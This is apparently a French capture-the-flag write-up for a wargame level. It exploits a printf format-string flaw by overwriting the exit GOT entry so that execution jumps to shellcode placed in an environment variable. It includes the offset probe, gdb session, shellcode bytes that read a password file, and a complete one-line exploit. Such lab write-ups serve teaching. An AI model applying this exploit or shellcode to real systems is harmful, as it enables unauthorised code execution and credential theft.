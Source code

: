 # Level 05
<a href="/level06"><img align='right' width=20x height=auto src="https://cdn.onlinewebfonts.com/svg/img_68680.png"></img></a>

- Il y a une vulnerabilité dans le code source le printf a une variable en tant que format
- On commence donc par reperer le offset pour ecrire sur une addresse
```
$> python -c "import struct; print('AAAABBBB' + '%x ' * 11)" | ./level05
aaaabbbb64 f7f39580 1 0 1 f7f99980 ffffffff 1 0 61616161 62626262
```
- Pour executer notre shellcode il faut ecrire par dessus l'adresse de la fonction pour que ca redirige vers notre shellcode
<pre>
$> objdump -R ./level05 

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497dc R_386_JUMP_SLOT   \__gmon_start_\_
<strong>080497e0 R_386_JUMP_SLOT   exit</strong>
080497e4 R_386_JUMP_SLOT   \__libc_start_main
</pre>
- Le retour du fgets est modifier pour nous empecher d'y ecrire un shellcode
- La meilleur solution est donc d'ecrire le shellcode dans le env
- On recupere donc l'addresse de la variable SHELLCODE
<pre>
$> env -i SHELLCODE="$SHELLCODE" SHELL=/bin/bash gdb ./level05
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) x/2s \*\*(char\*\*\*)&environ
0xffffdf4e:      "SHELLCODE=jsh.pashl06/hlevehers/he/ush/hom\211\343\061\311\061\322j\005X\315\200j\001[\211\301\061\322h\377\377\377\177^1\300\260\273\315\200"
0xffffdf97:      "SHELL=/bin/bash"
(gdb) x 0xffffdf4e + 10
<strong>0xffffdf58:      "jsh.pashl06/hlevehers/he/ush/hom\211\343\061\311\061\322j\005X\315\200j\001[\211\301\061\322h\377\377\377\177^1\300\260\273\315\200"</strong>
</pre>
- Apres avoir assemblé tout cela donne cette commande
```
(python -c "import struct; print('AAAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e2) + '%57205d' + '%11\$n' + '%8318d' + '%12\$n')") | env -i SHELLCODE="$(python -c "print('\x90' * 20 + 'jsh.pashl06/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80')")" SHELL=/bin/bash ./level05
```
